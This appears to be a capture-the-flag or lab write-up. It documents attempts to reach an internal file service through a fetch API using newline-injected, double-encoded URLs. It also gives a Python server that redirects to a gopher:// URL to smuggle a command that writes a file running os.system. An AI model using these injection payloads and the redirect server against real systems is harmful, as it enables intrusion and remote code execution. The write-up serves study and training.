 
## Limitations:  

We need to think of a way to reach the internal Fileservice, and inject our malicious command.  

---

## **Approaches:**

Multiple techniques were implemented, were all of them resulted in a failure.  

1. Sending a malicious URL to the fileservice, with encoded line carriage and our command executed.  

```json
curl 'http://localhost:4522/api/fetch?url=http://127.0.0.1:8443/foo%0amkdir%20/tmp/x%0amkfile%20/tmp/x/pwn%20owned'

{"status":"success"}
```

The URL passes the first check, however, results in an error in the subprocess call because CURL decoded it and resulted in an illegal URL.  

```
curl: (3) URL using bad/illegal format or missing URL
```

2. We can try double encoding.  

```json
└─$ curl 'http://localhost:4522/api/fetch?url=http%3A%2F%2F127.0.0.1%3A8443%2Ffoo%250amkdir%2520%2Ftmp%2Fx%250amkfile%2520%2Ftmp%2Fx%2Fpwn%2520owned'
{"status":"success"}
```

This results into reaching the fileSystem.  

```json
new connection from => ('127.0.0.1', 35248)
GET /foo%0amkdir%20/tmp/x%0amkfile%20/tmp/x/pwn%20owned HTTP/1.1
Host: 127.0.0.1:8443
User-Agent: curl/7.68.0
Accept: */*
```

However, the results where not URL decoded, resulting into a wrong format.  

3. We can try to make a proxy python server, that takes our request and forward it to the internal with a status of 302, and use another protocol, like gopher to send raw TCP data.  
```python
from http.server import BaseHTTPRequestHandler, HTTPServer

class RedirectHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        self.send_response(302)
        self.send_header('Location', 'gopher://127.0.0.1:8443/_MKFILE libmonitor.py import os\nos.system("id")')
        self.end_headers()

    def log_message(self, format, *args):
        return  # Suppress logging to keep output clean

def run(server_class=HTTPServer, handler_class=RedirectHandler):
    server_address = ('0.0.0.0', 8080)  # Listen on all interfaces
    httpd = server_class(server_address, handler_class)
    print("Proxy redirect server running on port 8080...")
    httpd.serve_forever()

if __name__ == "__main__":
    run()
```